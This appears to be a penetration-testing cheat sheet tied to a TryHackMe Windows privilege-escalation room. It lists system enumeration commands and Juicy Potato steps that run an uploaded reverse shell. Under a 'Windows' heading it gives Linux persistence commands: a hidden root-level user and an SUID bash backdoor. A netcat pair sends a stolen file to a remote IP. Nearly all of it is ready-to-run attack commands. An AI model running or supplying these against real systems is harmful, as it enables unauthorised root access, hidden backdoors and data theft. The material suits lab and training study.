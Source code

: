 # Windows

**Copy info from here:** [**https://tryhackme.com/room/windowsprivesc20**](https://tryhackme.com/room/windowsprivesc20)****

****

**Gathering Info**

```
whoami /priv
```

```
net user
```

```
systeminfo
```

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

```
dir c:\
```

```
dir "c:\program files"
```

```
dir "c:\program files (x86)"
```

```
wmic service get name,startname
```

```
wmic service get name,pathname,startname | findstr "Program Files"
```

```
cacls *.exe
```

**Juicy Potato**

* Download Juicy Potato to your attack machine
* Upload Juicy Potato to the target (ex: via FTP, SMB, HTTP, etc.)
* Create a reverse shell and upload it to the target (ex: via FTP, SMB, HTTP, etc.) use Juicy Potato to execute your reverse shell

```
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

```
JuicyPotato.exe -l 5050 -p C:\path\to\reverse-shell.exe -t *
```

**Persistence**

Add a new user.

```
useradd -p $(openssl passwd -crypt password) -s /bin/bash -o -u 0 -g 0 -m victor
```

Rootbash (Credit: Tib3rius).

```
# as root, create a copy of BASH and then set the SUID-bit
# to resume root-access execute the new binary using -p
cp /bin/bash /tmp/bash; chown root /tmp/bash; chmod u+s /tmp/bash; chmod o+x /tmp/bash
/tmp/bash -p
```

Exfil via Netcat.

```
nc -nvlp 5050 > stolen.exe
nc.exe -w3 10.11.12.13 5050 < stealme.exe
```
